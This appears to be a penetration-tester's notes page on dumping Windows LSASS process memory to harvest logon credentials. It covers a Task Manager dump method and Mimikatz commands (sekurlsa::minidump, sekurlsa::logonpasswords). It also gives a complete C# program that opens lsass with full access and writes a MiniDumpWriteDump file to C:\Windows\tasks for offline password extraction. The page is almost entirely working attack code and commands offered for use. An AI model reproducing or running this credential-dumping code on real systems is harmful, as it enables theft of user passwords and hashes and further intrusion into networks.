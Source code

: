 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Lsass
---
```


<span style="font-size: 35px; color:red"><b>LSASS</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Memory Dump</b></span>
1) Task Manager > details tab > locate lsass.exe process > right click and _Create Dump File_.
2) Copy it to the local machine and process it with Mimikatz 
```
sekurlsa::minidump lsass.dump
sekurlsa::logonpasswords
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>MiniDumpWriteDump</b></span>

C# application to execute a memory dump that we can parse with Mimikatz.
```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;

namespace MiniDump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, 
          IntPtr hFile, int DumpType, IntPtr ExceptionParam, 
          IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, 
          int processId);

        static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream("C:\\Windows\\tasks\\lsass.dmp", FileMode.Create);
            Process[] lsass = Process.GetProcessesByName("lsass");
            int lsass_pid = lsass[0].Id;

            IntPtr handle = OpenProcess(0x001F0FFF, false, lsass_pid);
            bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        }
    }
}
```

Compile it and run it, you'll get a <span style="color:red">lsass.dmp</span> file to use as follows: <span style="color:red">sekurlsa::minidump lsass.dmp</span> and <span style="color:red">sekurlsa::logonpasswords</span>
